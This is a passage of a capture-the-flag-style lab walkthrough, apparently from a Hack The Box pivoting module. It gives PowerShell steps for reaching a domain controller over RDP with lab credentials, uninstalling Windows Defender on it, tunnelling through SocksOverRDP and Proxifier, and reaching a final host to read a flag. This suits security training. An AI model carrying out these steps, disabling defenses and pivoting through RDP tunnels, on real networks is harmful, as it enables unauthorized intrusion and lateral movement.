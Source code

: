 #### **Phase 3: Domain Controller Connection**
```powershell
# 6. RDP to Domain Controller
mstsc.exe
# Computer: 172.16.5.19
# User: victor
# Password: pass@123
# Connect

# Expected plugin message:
# "SocksOverRDP plugin enabled, listening on 127.0.0.1:1080"

# 7. On DC - Disable Windows Defender
Uninstall-WindowsFeature -Name Windows-Defender

# 8. Transfer SocksOverRDP-Server.exe to DC (copy-paste)
# 9. Run server as Administrator
cd C:\Users\victor\Desktop
.\SocksOverRDP-Server.exe
# Expected: "Channel opened over RDP, Listening for connections..."
```

#### **Phase 4: Proxifier Setup**
```powershell
# 10. Back on pivot host - verify SOCKS listener
netstat -antb | findstr 1080
# Should show: TCP 127.0.0.1:1080 LISTENING

# 11. Launch Proxifier as Administrator
cd "C:\Users\htb-student\Desktop\Proxifier PE"
.\Proxifier.exe

# 12. Configure proxy in Proxifier:
# Profile → Proxy Servers → Add
# Address: 127.0.0.1, Port: 1080, Protocol: SOCKS Version 5
# OK

# 13. Verify default proxification rule routes through SOCKS
```

#### **Phase 5: Final Target Access**
```powershell
# 14. RDP to final target through proxy
mstsc.exe
# Computer: 172.16.6.155
# User: jason
# Password: WellConnected123!
# Connect

# 15. Retrieve flag
# Navigate to Desktop
# Open Flag.txt
# Content: H0pping@roundwithRDP!
```
